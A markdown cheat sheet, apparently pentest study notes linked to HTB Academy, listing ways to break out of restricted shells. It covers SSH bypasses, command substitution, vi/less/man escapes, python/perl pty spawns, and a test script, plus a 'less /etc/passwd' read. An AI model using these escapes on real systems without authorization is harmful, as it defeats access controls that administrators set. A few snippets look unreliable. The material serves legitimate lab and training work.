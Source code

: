# 🚪 Escaping Restricted Shells

## 🎯 Overview

Techniques to break out of restricted shells (rbash, rksh, rzsh) that limit command execution, directory changes, and environment modification.

## 🔒 Restricted Shell Types

| Shell | Description |
|-------|-------------|
| **rbash** | Restricted Bourne shell - limits cd, PATH modification |
| **rksh** | Restricted Korn shell - blocks shell functions, command execution |
| **rzsh** | Restricted Z shell - prevents aliases, script execution |

## 🚪 Escape Techniques

### SSH Bypass Methods
```bash
# Method 1: SSH with bash noprofile
ssh user@target -t "bash --noprofile"

# Method 2: SSH with different shell
ssh user@target -t "/bin/bash"
ssh user@target -t "/bin/sh"

# Method 3: SSH command execution
ssh user@target "bash -i"

# Method 4: SSH with environment bypass
ssh user@target -t "env -i bash --norc --noprofile"
```

### Command Injection
```bash
# Via backticks (command substitution)
ls -l `pwd`
ls -l `bash`

# Via $() substitution
ls -l $(bash)
ls -l $(sh)

# Via environment variables
echo $0
$0  # Often launches unrestricted shell
```

### Environment Variable Manipulation
```bash
# Check available variables
env

# Exploit SHELL variable
SHELL=/bin/bash
$SHELL

# PATH manipulation (if allowed)
PATH=/bin:/usr/bin
export PATH
bash
```

### Built-in Command Abuse
```bash
# Vi/Vim escape
vi
:!/bin/bash

# Less/More pager escape
less /etc/passwd
!/bin/bash

# Man page escape
man ls
!/bin/bash

# Python escape (if available)
python -c "import os; os.system('/bin/bash')"
python3 -c "import os; os.system('/bin/bash')"
```

### Shell Function Exploitation
```bash
# Define function to execute bash
function() { /bin/bash; }
function

# Or use eval
eval "bash"
```

## 🔧 Advanced Bypass Techniques

### Character Escaping
```bash
# Use backslashes
\b\a\s\h

# Use quotes
"bash"
'bash'

# Use variable expansion
b=bash
$b
```

### Alternative Interpreters
```bash
# Try different shells
sh
dash
zsh
csh
tcsh

# Scripting languages
python -c "import pty; pty.spawn('/bin/bash')"
perl -e 'exec "/bin/bash";'
ruby -e 'exec "/bin/bash"'
```

### File-based Escapes
```bash
# Create script file
echo "/bin/bash" > escape.sh
chmod +x escape.sh
./escape.sh

# Use existing binaries
cp /bin/bash /tmp/mybash
/tmp/mybash
```

## 🔍 Enumeration & Detection

### Identify Restricted Shell
```bash
# Check current shell
echo $SHELL
echo $0

# Test restrictions
cd /tmp    # Will fail in rbash
export TEST=value  # Will fail if export restricted
bash       # Will fail if command execution blocked
```

### Quick Escape Test Script
```bash
#!/bin/bash
echo "=== RESTRICTED SHELL ESCAPE TEST ==="

echo "[+] Current shell: $SHELL"
echo "[+] Shell type: $0"

echo "[+] Testing SSH bypass methods:"
echo "ssh user@host -t 'bash --noprofile'"
echo "ssh user@host -t '/bin/bash'"

echo "[+] Testing command substitution:"
echo 'ls -l `pwd`'
echo 'ls -l $(bash)'

echo "[+] Testing environment variables:"
echo '$SHELL'
echo '$0'

echo "[+] Testing alternative interpreters:"
which python python3 perl ruby 2>/dev/null
```

## 🚀 Practical Examples

### HTB Academy Example
```bash
# Connect with SSH bypass
ssh htb-user@target -t "bash --noprofile"

# Break out with Ctrl+C if needed
# Ctrl+C

# Verify escape
ls
cat flag.txt
# Result: HTB{...
```

### Common Escape Sequence
```bash
# 1. Try SSH bypass first
ssh user@host -t "bash --noprofile"

# 2. If in restricted shell, try command substitution
ls -l `bash`

# 3. Try environment variable
$SHELL

# 4. Try scripting language
python -c "import os; os.system('/bin/bash')"

# 5. Try vi escape
vi
:!/bin/bash
```

## 🔑 Quick Reference

### Most Effective Methods
1. **SSH bypass**: `ssh user@host -t "bash --noprofile"`
2. **Command substitution**: `ls $(bash)`
3. **Environment escape**: `$0` or `$SHELL`
4. **Vi/editor escape**: `:!/bin/bash`
5. **Python spawn**: `python -c "import pty; pty.spawn('/bin/bash')"`

### Emergency Escapes
```bash
# If nothing else works
echo $0        # Check shell type
env            # List environment variables  
compgen -c     # List available commands
help           # Built-in help
```

---

*Restricted shell escapes exploit the fundamental tension between security restrictions and functional requirements - finding gaps in command limitations to restore full shell capabilities.* 